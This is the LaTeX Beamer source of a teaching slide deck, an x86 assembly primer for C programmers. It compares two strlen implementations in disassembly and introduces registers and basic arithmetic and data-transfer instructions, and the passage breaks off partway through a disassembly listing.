\documentclass[11pt,xcolor=dvipsnames]{beamer}
\usepackage{minted}
\usepackage{graphics}

\usecolortheme[named=Brown]{structure}
\usetheme{CambridgeUS}

\setbeamertemplate{navigation symbols}{}
\setbeamertemplate{section in toc}[ball unnumbered]
\setbeamertemplate{itemize item}[square]
\setbeamertemplate{itemize subitem}[square]
\setbeamerfont{frametitle}{size*={12}{1}}
\setbeamerfont{section in head/foot}{size*={9.5}{1}}
\setbeamersize{text margin left = 1em}

\usemintedstyle{perldoc}
\newminted{c}{fontsize=\fontsize{9.25}{8.5},obeytabs=true}
\newminted{gas}{fontsize=\fontsize{9.25}{8.5},obeytabs=true}
\newminted{nasm}{fontsize=\fontsize{9.25}{8.5},obeytabs=true}
\newminted{customobjdump}{fontsize=\fontsize{9.25}{8.5},obeytabs=true}
\newminted{bash}{fontsize=\fontsize{9.25}{8.5},obeytabs=true}
\newminted{text}{fontsize=\fontsize{9.25}{8.5},obeytabs=true}

\newcommand{\vs}{\vspace{0.5em}}
\newcommand{\mvs}{\vspace{-0.95em}}

\AtBeginSection{
\begin{frame}
\begin{center}
\structure{\huge \insertsection}
\end{center}
\end{frame}
}

\makeatletter
\setbeamertemplate{footline}
{
  \leavevmode%
  \hbox{%
  \begin{beamercolorbox}[wd=.50\paperwidth,ht=2.25ex,dp=1ex,center]{title in head/foot}%
    \usebeamerfont{title in head/foot}\insertshorttitle
  \end{beamercolorbox}%
  \begin{beamercolorbox}[wd=.50\paperwidth,ht=2.25ex,dp=1ex,right]{date in head/foot}%
    \usebeamerfont{date in head/foot}\insertshortdate{}\hspace*{2em}
    \insertframenumber{} / \inserttotalframenumber\hspace*{2ex}
  \end{beamercolorbox}}%
  \vskip0pt%
}
\makeatother

\makeatletter
\setbeamertemplate{headline}
{
  \leavevmode%
  \hbox{%
  \begin{beamercolorbox}[wd=\paperwidth,ht=5ex,dp=2.5ex,left]{section in head/foot}%
    \hspace*{2ex}\usebeamerfont{section in head/foot}\insertsectionhead
  \end{beamercolorbox} }%
%  \begin{beamercolorbox}[wd=.30\paperwidth,ht=5ex,dp=2.5ex,left]{subsection in head/foot}%
%    \usebeamerfont{subsection in head/foot}\hspace*{2ex}\insertsubsectionhead
%  \end{beamercolorbox}}%
  \vskip0pt%
}
\makeatother

\begin{document}

\title{x86 Assembly Primer for C Programmers}
\author{Ivan Sergeev}
\institute{\url{https://github.com/vsergeev/apfcp}}
\date{January 24/26, 2012}

%%% Title Slide
\begin{frame}[plain]
  \titlepage
\end{frame}

\section*{Introduction and Example}

%%% Introduction and Example Slide 1
\begin{frame}[fragile,t]
\frametitle{Reasonable strlen (example-1.c)}
Reasonable implementation of \verb+strlen()+ in C:\vs
\begin{ccode}
size_t ex_strlen(const char *s) {
    size_t i;
    for (i = 0; *s != '\0'; i++)
        s++;
    return i;
}
\end{ccode}
\end{frame}

%%% Introduction and Example Slide 2
\begin{frame}[fragile,t]
\frametitle{Reasonable strlen (example-1.c) disassembly}
Let's compile and disassemble it.\vs
\begin{customobjdumpcode}
$ gcc -O1 example-1.c -o example-1 && objdump -d eaxmple-1
...
080483b4 <ex_strlen>:
 80483b4: 8b 54 24 04     mov    0x4(%esp),%edx
 80483b8: b8 00 00 00 00  mov    $0x0,%eax
 80483bd: 80 3a 00        cmpb   $0x0,(%edx)
 80483c0: 74 09           je     80483cb <ex_strlen+0x17>
 80483c2: 83 c0 01        add    $0x1,%eax
 80483c5: 80 3c 02 00     cmpb   $0x0,(%edx,%eax,1)
 80483c9: 75 f7           jne    80483c2 <ex_strlen+0xe>
 80483cb: f3 c3           repz ret
...
\end{customobjdumpcode}
\begin{itemize}
	\item Note: output of optimization levels 2 and 3 only differs with added padding bytes for memory alignment.
\end{itemize}
\end{frame}

%%% Introduction and Example Slide 3
\begin{frame}[fragile,t]
\frametitle{Reasonable strlen (example-1.c) disassembly}
Commented disassembly for \verb+ex_strlen()+:\vs
\begin{gascode}
# size_t strlen(const char *s);
ex_strlen:
  mov    0x4(%esp),%edx       # %edx = argument s
  mov    $0x0,%eax            # %eax = 0
  cmpb   $0x0,(%edx)          # Compare *(%edx) with 0x00
  je     end                  #    If equal, jump to return

  loop:
    add    $0x1,%eax          # %eax += 1
    cmpb   $0x0,(%edx,%eax,1) # Compare *(%edx + %eax*1), 0x00
    jne    loop               #    If not equal, jump to add

  end:
    repz ret                  # Return, return value in %eax
\end{gascode}
\end{frame}

%%% Introduction and Example Slide 4
\begin{frame}[fragile,t]
\frametitle{glibc strlen (example-1.c)}
glibc's i386 implementation of \verb+strlen()+:\vs
\begin{customobjdumpcode}
$ cat glibc/sysdeps/i386/strlen.c
\end{customobjdumpcode}
\begin{ccode}
...
size_t
strlen (const char *str)
{
  int cnt;

  asm("cld\n"                   /* Search forward.  */
      /* Some old versions of gas need `repne' instead of `repnz'.  */
      "repnz\n"                 /* Look for a zero byte.  */
      "scasb" /* %0, %1, %3 */ :
      "=c" (cnt) : "D" (str), "0" (-1), "a" (0));

  return -2 - cnt;
}
...
\end{ccode}
\end{frame}

%%% Introduction and Example Slide 5
\begin{frame}[fragile,t]
\frametitle{glibc strlen (example-1.c) disassembly}
Let's compile and disassemble it.\vs
\begin{customobjdumpcode}
$ gcc -O1 example-1.c -o example-1 && objdump -d a.out
...
080483cd <glibc_strlen>:
 80483cd: 57                    push   %edi
 80483ce: b9 ff ff ff ff        mov    $0xffffffff,%ecx
 80483d3: b8 00 00 00 00        mov    $0x0,%eax
 80483d8: 8b 7c 24 08           mov    0x8(%esp),%edi
 80483dc: fc                    cld    
 80483dd: f2 ae                 repnz scas %es:(%edi),%al
 80483df: b8 fe ff ff ff        mov    $0xfffffffe,%eax
 80483e4: 29 c8                 sub    %ecx,%eax
 80483e6: 5f                    pop    %edi
 80483e7: c3                    ret  
..
\end{customobjdumpcode}
\end{frame}


%%% Introduction and Example Slide 6
\begin{frame}[fragile,t]
\frametitle{glibc strlen (example-1.c) disassembly}
Commented disassembly for glibc's \verb+strlen()+:\vs
\begin{gascode}
# size_t strlen(const char *s);
strlen:
  push   %edi               # Save %edi
  mov    $0xffffffff,%ecx   # %ecx = 0xffffffff
  mov    $0x0,%eax          # %eax = 0
  mov    0x8(%esp),%edi     # %edi = argument s
  cld                       # Clear direction flag

  repnz scas %es:(%edi),%al # Repeat scan while *(%edi) != 0x0

  mov    $0xfffffffe,%eax   # %eax = 0xfffffffe
  sub    %ecx,%eax          # %eax = %eax - %ecx
  pop    %edi               # Restore %edi
  ret                       # Return, return value in %eax
\end{gascode}
\end{frame}

%%% Introduction and Example Slide 7
\begin{frame}[fragile,t]
\frametitle{Disassembly side-by-side}
A side-by-side comparison of the disassembly:\vspace{-0.8em}
\begin{columns}[T]
\column{0.5\textwidth}
\begin{customobjdumpcode*}{fontsize=\fontsize{6.5}{8},frame=single}
<ex_strlen>:
# Initialization
8b 54 24 04     mov    0x4(%esp),%edx
b8 00 00 00 00  mov    $0x0,%eax
80 3a 00        cmpb   $0x0,(%edx)
74 09           je     80483cb <ex_strlen+0x17>


# Main loop
83 c0 01        add    $0x1,%eax
80 3c 02 00     cmpb   $0x0,(%edx,%eax,1)
75 f7           jne    80483c2 <ex_strlen+0xe>

# End
f3 c3           repz ret
\end{customobjdumpcode*}
\column{0.5\textwidth}
\begin{customobjdumpcode*}{fontsize=\fontsize{6.5}{8},frame=single}
<glibc_strlen>:
# Initialization
57              push   %edi
b9 ff ff ff ff  mov    $0xffffffff,%ecx
b8 00 00 00 00  mov    $0x0,%eax
8b 7c 24 08     mov    0x8(%esp),%edi
fc              cld

# Main loop
f2 ae           repnz scas %es:(%edi),%al



# End
b8 fe ff ff ff  mov    $0xfffffffe,%eax
29 c8           sub    %ecx,%eax
5f              pop    %edi
c3              ret
\end{customobjdumpcode*}
\end{columns}
\end{frame}

%%% Introduction and Example Slide 8
\begin{frame}[fragile,t]
\frametitle{Disassembly side-by-side}
\mvs
A side-by-side comparison of the main loop disassembly:\vspace{-0.8em}
\begin{columns}[T]
\column{0.5\textwidth}
\begin{customobjdumpcode*}{fontsize=\fontsize{6.5}{8},frame=single}
<ex_strlen>:
...
# Main loop
83 c0 01        add    $0x1,%eax
80 3c 02 00     cmpb   $0x0,(%edx,%eax,1)
75 f7           jne    80483c2 <ex_strlen+0xe>
...
\end{customobjdumpcode*}
\column{0.5\textwidth}
\begin{customobjdumpcode*}{fontsize=\fontsize{6.5}{8},frame=single}
<glibc_strlen>:
...
# Main loop
f2 ae           repnz scas %es:(%edi),%al


...
\end{customobjdumpcode*}
\end{columns}
\vs
\begin{itemize}
        \item What's going on here?
        \pause
        \item glibc's \verb+strlen()+ "main loop" is only 2 bytes!
        \begin{itemize}
                \item In fact, it's only one instruction: \verb+repnz scas (%edi),%al+.
        \end{itemize}
        \pause
        \item Reasonable strlen's "main loop" is three instructions, with a conditional branch \verb+jne 0x80483c2+.
        \pause
        \item No (obvious) gcc optimization will eliminate the three instruction critical loop with the conditional branch.
        \item glibc's i486 and i586 implementations of {\ttfamily strlen()} get complicated, taking into account memory alignment and processor pipeline
\end{itemize}
\end{frame}

% Outline Slide
\section*{Table of Contents}
\begin{frame}{Outline}
\tableofcontents[part=1]
\end{frame}

\begin{frame}{Outline}
\tableofcontents[part=2]
\end{frame}

\part{1}

\section{Topic 1: Arithmetic and Data Transfer}
\begin{frame}[fragile,t]
\frametitle{8086 CPU Registers}
\begin{figure}
\centering 
\includegraphics[width=0.85\textwidth]{figures/8086state.png}
\end{figure}
\begin{itemize}
    \item Original 8086 was a 16-bit CPU
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{386+ CPU Registers}
\begin{figure}
\centering 
\includegraphics[width=0.85\textwidth]{figures/386state.png}
\end{figure}
\begin{itemize}
    \item 386+ is a 32-bit CPU, all registers extended to 32-bits
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Instructions}
\begin{itemize}
    \item x86 instructions manipulate CPU registers, memory, and I/O ports
    \item Encoded as numbers, sitting in memory like any other data
    \item Uniquely defined for each architecture in its {\bf instruction set}
\end{itemize}
\vs
\pause
\begin{itemize}
    \item Represented in assembly by a mnemonic and operands
    \item AT\&T/GAS syntax
    \begin{itemize}
    \item No operands: \verb+<mnemonic>+
    \item One operand: \verb+<mnemonic> <dest>+
    \item Two operands: \verb+<mnemonic> <src>,<dest>+
    \pause
    \end{itemize}
    \item Source and destination operands are typically one of:
    \begin{itemize}
        \item Register: {\ttfamily \%eax, \%ebx, \%ecx, \%edx,} etc.
        \item Immediate: constant value embedded in the instruction encoding
        \item Memory: constant value representing an absolute (0x80000000) or relative address (+4)
    \end{itemize}
    \pause
    \item Availability of operands for a particular instruction depends on instruction set
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Instruction Fetch-Decode-Execute}
\mvs
\begin{figure}
\centering 
\includegraphics[width=0.45\textwidth]{figures/cpustate.png}
\end{figure}
\begin{itemize}
    \item {\ttfamily \%eip} contains address of next instruction
    \item CPU {\bf fetches} data at address {\ttfamily \%eip} from main memory
    \begin{itemize}
        \item e.g. \verb+83 c0 01+ which is encoded from \verb+add $0x1, %eax+
    \end{itemize}
    \item CPU {\bf decodes} data into an instruction
    \item CPU {\bf executes} instruction, possibly manipulating memory, I/O, and its own state, including {\ttfamily \%eip}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Sampling of Core 386+ User Instructions}
\begin{itemize}
    \item {\bf Arithmetic:} {\ttfamily adc, add, and, cmp, dec, div, idiv, imul, inc, mul, neg, not, or, rcl, rcr, rol, ror, sal, sar, sbb, shl, shr, sub, test, xor, lea}
    \item {\bf Flags:} {\ttfamily clc / stc, cld / std, cli / sti, cmc}
    \item {\bf String:} {\ttfamily cmpsb / cmpsw, lodsb / lodsw, movsb / movsw, scasb / scasw, stosb / stosw, repxx}
    \item {\bf Stack:} {\ttfamily push, pop}
    \item {\bf Memory:} {\ttfamily mov}
    \item {\bf Flow Control:} {\ttfamily call, jxx, jmp, ret / retn / retf, loop/loopxx}
    \item {\bf Operating System:} {\ttfamily int, into, iret, hlt, pushf, popf, popad, popfd, pushad}
    \item {\bf Input/Output:} {\ttfamily in, out}
    \item {\bf Misc:} {\ttfamily aaa, aad, aam, aas, daa, cbw, cwd, lahf, lds, les, lock, wait, xchg, xlat, nop}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Arithmetic and Data Transfer Instructions (example-2.S)}
\mvs
\begin{gascode*}{fontsize=\fontsize{9}{8}}
.section .text
# nop
nop                     # Do nothing!

# add, sub, adc, and, or, xor
addl %eax, %ebx         # %ebx = %ebx + %eax
addl magicNumber, %ebx  # %ebx = %ebx + *(magicNumber)
addl %ebx, magicNumber  # *(magicNumber) = *(magicNumber) + %ebx
addl $0x12341234, %ebx  # %ebx = %ebx + 0x12341234

# inc, dec, not, neg
decl %eax               # %eax--
decw %ax                # %ax--
decb %al                # %al--

# rol, rcl, shl, shr, sal, sar
shrl $3, %eax           # %eax = %eax >> 3
shrl $3, magicNumber    # *(magicNumber) = *(magicNumber) >> 3

# mov
movl %eax, %ebx         # %ebx = %eax
movl magicNumber, %eax  # %eax = *(magicNumber)
movl %eax, magicNumber  # *(magicNumber) = %eax

.section .data
magicNumber:
  .long 0xdeadbeef
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Arithmetic and Data Transfer Instructions Disassembled}
\mvs
\begin{customobjdumpcode}
$ as example-2.S -o example-2.o && ld example-2.o -o example-2 &&
   objdump -D example-2

Disassembly of section .text:
08048074 <.text>:
 8048074: 90                    nop
 8048075: 01 c3                 add    %eax,%ebx
 8048077: 03 1d a4 90 04 08     add    0x80490a4,%ebx
 804807d: 01 1d a4 90 04 08     add    %ebx,0x80490a4
